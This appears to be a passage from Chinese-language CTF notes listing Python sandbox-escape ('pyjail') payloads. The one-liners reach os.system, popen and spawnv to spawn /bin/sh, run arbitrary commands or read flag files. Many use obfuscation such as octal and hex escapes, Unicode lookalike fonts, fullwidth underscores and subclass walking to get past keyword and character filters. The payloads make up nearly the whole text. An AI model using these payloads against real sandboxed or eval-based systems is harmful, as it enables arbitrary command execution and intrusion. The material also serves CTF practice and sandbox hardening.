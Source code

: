   ```py
  ```
  - `print.__self__.__loader__.load_module('o''s').spawnv(0, "/bin/sh", ["i"])`
  - `print(print.__self__.__loader__().load_module('o' + 's').spawnvp(print.__self__.__loader__().load_module('o' + 's').P_WAIT, "/bin/sh", ["/bin/sh"]))`
  - `print(print.__self__.__loader__.load_module('bu''iltins').getattr(print.__self__.__loader__.load_module('o''s'),'sy''stem')('sh'))`
  - `print.__self__.setattr(print.__self__.credits, "_Printer__filenames", ["filename"]),print.__self__.credits()`,打印文件内容
  - `print(globals.__self__.__import__("os").system("cmd"))`
  - `print(().__class__.__base__.__subclasses__()[132].__init__.__globals__['popen']('cmd').read())`
  - `print(''.__class__.__mro__[1].__subclasses__()[109].__init__.__globals__['sys'].modules['os'].__dict__['system']('cmd'))`
  - `print("".__class__.__mro__[1].__subclasses__()[132].__init__.__globals__['system']('sh'))`
  - `print.__self__.__loader__.load_module('o''s').spawnl(0, "/bin/sh", "a")`
  - `print(().__class__.__mro__[1].__subclasses__()[84]().load_module('o'+'s').__dict__['sy'+'stem']('cmd'))`
  - `print([x for x in ().__class__.__base__.__subclasses__() if x.__name__ == "_wrap_close"][0].__init__.__globals__['system']('cmd'))`
  - `print(print.__self__.__loader__().load_module('o' + 's').__dict__['pop'+'en']('cmd').read())`
  - `print.__self__.__dict__["__import__"]("os").system("cmd")`
- 关于`eval(payload)`中payload的控制
  - 不使用26个字母中的前13个字母（使用10进制ascii绕过）：`exec("pr\x69nt(op\x65n('\x66'+\x63\x68r(108)+'\x61\x67.txt').r\x65\x61\x64())")`
  - 不使用26个字母中的后13个字母（使用8进制）：`exec("\160\162i\156\164(\157\160e\156('flag.\164\170\164').\162ead())")`,`exec("\160\162\151\156\164\050\157\160\145\156\050\047\146\154\141\147\056\164\170\164\047\051\056\162\145\141\144\050\051\051")`，`\145\166\141\154\50\151\156\160\165\164\50\51\51`(`eval(input)`)
  - 不使用任何数字或括号：`[[help['cat flag.txt'] for help.__class__.__getitem__ in [help['os'].system]] for help.__class__.__getitem__ in [__import__]]`(执行命令)，`[f"{help}" for help.__class__.__str__ in [breakpoint]]`(开启pdb)
  - 使用斜体:`𝘦𝘷𝘢𝘭(𝘪𝘯𝘱𝘶𝘵())`,`𝘦𝘹𝘦𝘤("𝘢=𝘤𝘩𝘳;𝘣=𝘰𝘳𝘥;𝘤=𝘣('൬');𝘥=𝘢(𝘤-𝘣('೸'));𝘱𝘳𝘪𝘯𝘵(𝘰𝘱𝘦𝘯(𝘢(𝘤-𝘣('ആ'))+𝘢(𝘤-𝘣('ഀ'))+𝘢(𝘤-𝘣('ഋ'))+𝘢(𝘤-𝘣('അ'))+'.'+𝘥+𝘢(𝘤-𝘣('೴'))+𝘥).𝘳𝘦𝘢𝘥())")`
  - 不使用`__`:`()._＿class_＿._＿bases_＿[0]._＿subclasses_＿()[124].get_data('.','flag.txt')`(第二个`＿`是unicode里面的下划线，python自动标准化成`_`)
  - 使用特殊字体：`ｂｒｅａｋｐｏｉｎｔ()`（开启pdb）
- 当空格被过滤时，可以用tab键代替：`import    os`
- `[module for module in ().__class__.__bases__[0].__subclasses__() if 'Import' in module.__name__][0].load_module('os').system('cmd')`,通过`class '_frozen_importlib.BuiltinImporter'>`模块导入os执行命令
- `[ x.__init__.__globals__ for x in ().__class__.__base__.__subclasses__() if "'os." in str(x) ][0]['system']('cmd')`
- `[ x.__init__.__globals__ for x in ''.__class__.__base__.__subclasses__() if "wrapper" not in str(x.__init__) and "sys" in x.__init__.__globals__ ][0]["sys"].modules["os"].system("cmd")`
- `().__class__.__base__.__subclasses__()[141].__init__.__globals__["system"]("sh")`
- `().__class__.__bases__[0].__subclasses__()[107]().load_module("os").system("cmd")`
- 奇怪字体系列：
  - `ｅｘｅｃ('ｐｒｉｎｔ(ｏｐｅｎ(' + ｃｈｒ(34) + ｃｈｒ(102) + ｃｈｒ(108) + ｃｈｒ(97) + ｃｈｒ(103) + ｃｈｒ(46) + ｃｈｒ(116)+ｃｈｒ(120)+ｃｈｒ(116) + ｃｈｒ(34) + ')' + ｃｈｒ(46)+'ｒｅａｄ())')`
  - `𝘣𝘳𝘦𝘢𝘬𝘱𝘰𝘪𝘯𝘵()`
  - `𝑒𝓍𝑒𝒸(𝒾𝓃𝓅𝓊𝓉())`
  - `𝘦𝘹𝘦𝘤(𝘪𝘯𝘱𝘶𝘵())`
- 类似[fast-forward](https://github.com/hsncsclub/hsctf-10-challenges/tree/main/misc/fast-forward),[wp](https://ebonyx.notion.site/misc-fast-forward-v2-40c53a6a56ff4ad19523524065b2c9c3)的pyjial： 限制可使用的操作码和字节码，以及标识符的长度（the opcodes the bytecode is allowed to contain and the lengths of the identifiers, or “names” that we can use）。例如，只能使用5个字符长度以下的函数（print之类的，breakpoint就不行。不过字符串不限制长度）。以下是此类型题可用payload：
  - `bt=vars(vars(type.mro(type)[1])['__getattribute__'](all,'__self__'));imp=bt['__import__'];bt['print'](bt['getattr'](bt['getattr'](vars(imp('inspect'))['currentframe'](),'f_back'),'f_globals')['flag'])`
    - 用`object.__getattribute__`替代getattr。此题flag为一个全局变量，在调用输入代码的main函数中可访问。导入inspect模块并使用`inspect.currentframe().f_back`获取父栈帧即可从f_globals中获取。
  - `(lambda: print((1).__class__.__base__.__subclasses__()[134].__init__.__globals__['system']('/bin/sh')))()`
    - lambda函数可以“隐藏”函数名和参数名。来源：https://kos0ng.gitbook.io/ctfs/ctfs/write-up/2023/hsctf/misc#fast-forward-26-solves